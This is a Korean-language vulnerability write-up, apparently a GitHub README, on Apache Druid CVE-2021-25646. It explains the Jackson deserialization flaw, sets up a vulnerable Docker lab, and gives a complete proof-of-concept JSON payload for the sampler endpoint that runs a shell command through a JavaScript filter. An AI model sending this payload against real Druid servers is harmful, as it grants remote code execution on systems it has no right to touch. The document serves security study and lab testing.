 # Apache Druid 취약점 (CVE-2021-25646)
### **개요**
  Apache Druid는 대량의 이벤트 데이터를 빠르게 얻고 데이터에 대한 짧은 대기 시간 쿼리를 제공하도록 Java로 작성된 열 지향 오픈 소스 분산 데이터 저장소이다. Apache Druid에는 사용자가 제공 한 JavaScript를 실행하는 코드가 포함되어 있으며 다양한 유형의 요청에 포함된다. 이 기능은 신뢰도가 높은 환경에서 사용하기 위한 기능이기 때문에, 기본적으로 비활성화 상태이다. 하지만, Druid 0.20.0 이전 버전에서는 서버 구성에 관계없이 사용자가 제공한 JavaScript 코드를 실행할 수 있는 취약점(CVE-2021-25646)이 발견되었다. 해커는 해당 취약점을 악용해 Druid 서버 프로세스의 권한으로 타겟 시스템에서 원격 코드실행을 할 수 있다.<br><br><br>
  
### **분석 내용 (Summary)**
Apache Druid는 기본적으로 JavaScript 함수의 실행을 지원하지 않는다. 이 취약점의 근본적인 문제는 Apache Druid의 Jackson이 JavaScript 타입 JSON 데이터 구문을 파싱하는 과정에서 JavaScript 실행 설정을 활성화함으로서 원격 코드 실행 취약점이 발생하게 된다. 

JavaScriptDimFilter의 생성자는 @JsonCreator를 사용한다. 즉, JavaScriptDimFilter 클래스가 역직렬화 될 때, Jackson은 이 생성 메서드를 호출하고, dimesion, function, extractFn, filterTuning은 Jackson이 JavaScriptDimFilter로 역 직렬화 및 구문 분석 할 때, CreatorProterty 유형으로 캡슐화되며 @JsonProperty로 표시되지 않은 구성 매개 변수의 경우 ""라는 CreatorProperty가 생성된다.
Jackson이 구문 분석 시에 name이 ""인 경우, config에 바인딩이 된다. 이를 통해 JavaScript를 사용하도록 설정할 수 있다.

_deserializePropertyBased 메서드를 사용하여 구문이 분석된 Json 문자열의 "key name"은 현재 구문이 분석된 상태에서 해당 Creator Property를 찾는데 사용된다. Creator Property를 찾는 기능은 findCreatorProperty 메서드의 _propertyLookup HashMap에서 해당 "key name"에 대한 속성을 찾을 수 있다. _propertyLookup에서 JavaScriptConfig의 키는 @JsonProperty로 속성이 수정되지 않기 때문에, ""으로 Creator Property가 생성되고 Jacson이 입력한 키를 설정한다. 그리고 사용자는 ""값에 속성을 할당하게 된다. 
그래서 공격자가 Json 문자열에 ""로 키를 제공하면 findCreatorProperty가 해당 키와 일치하고 JavaScriptConfig에 해당하는 Creator Property를 얻는다. 이를 enabled = true로 설정하여 Apache Druid의 JavaScript기능을 활성화할 수 있다.  


<br><br><br>

# 취약 환경 구축
* 취약 버전 : Apache Druid < = 0.20.0 
* 해결 버전 : Apache Druid > = 0.20.1 이상<br> <br> 
## **환경 구축 ( docker )**
1. https://github.com/apache/druid 를 Clone. <br><br>
2. `/druid/docker_druid/druid/distribution/docker` 경로에서 docker-compose.yml 파일을 다음과 같이 수정한다. 
   * coordinator: & broker: & historical: & middlemanager: & router: 명시한 4개의 각 서비스에 대한 apache/druid 버전을 취약한 버전으로 수정. 

   * ex) apache druid 0.19.0 버전을 사용할 경우 아래와 같이 수정. 
```{docker}
    coordinator:
        image: apache/druid:0.19.0
        container_name: coordinator
        volumes:
          - ./storage:/opt/data
          - coordinator_var:/opt/druid/var
        depends_on:
          - zookeeper
          - postgres
        ports:
          - "8081:8081"
        command:
          - coordinator
        env_file:
          - environment
```

3. `docker-compose up` 명령 실행 <br><br>
4. 127.0.0.1:8888 접근 가능 여부 확인 <br><br>


<br>

## **취약 환경 설정 ( LoadData )**
1. 좌측 상단 Load data - Start new spec - Local disk 클릭 <br><br>
2. Connect data 이후 아래와 같이 설정을 삽입 후 Apply - Next.
   * Base directory : `quickstart/tutorial/`
   * File filter : `wikiticker-2015-09-12-sampled.json.gz` <br><br>
3. Add column filter가 보일 때까지 계속해서 Next <br><br>
4. Add column filter 클릭하여 다음과 같이 삽입 후 Apply - Next. 
   * Dimension : `cityName`
   * Value : `Auburn` <br><br>
<br><br><br>

# 취약점 테스트
### Payload : https://github.com/Vulnmachines/Apache-Druid-CVE-2021-25646/blob/main/Payload.txt

```
/tmp/hacked!.txt 파일 생성 PoC

### URL
POST 127.0.0.1:8888/druid/indexer/v1/sampler?for=filter

### Payload
{"type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript", "function":"function(value){return java.lang.Runtime.getRuntime().exec('touch /tmp/hacked!.txt')}", "dimension":"added", "":{ "enabled":"true" } }}}},"samplerConfig":{"numRows":500,"cacheKey":"73a90acaae2b1ccc0e969709665bc62f"}}
```
<br>

## **패킷 전송**


<br><br>

## **결과 확인**


<br><br><br>
# 참고 자료 
* https://www.77169.net/html/275825.html
* https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw
* https://mp.weixin.qq.com/s/m7WLwJX-566WQ29Tuv7dtg
* https://securitylab.github.com/research/rhino-in-the-room/
* https://xz.aliyun.com/t/9229?page=1
* https://hell38vn.wordpress.com/2021/04/01/phan-tich-cve-2021-25646-code-execution-on-apache-druid/
  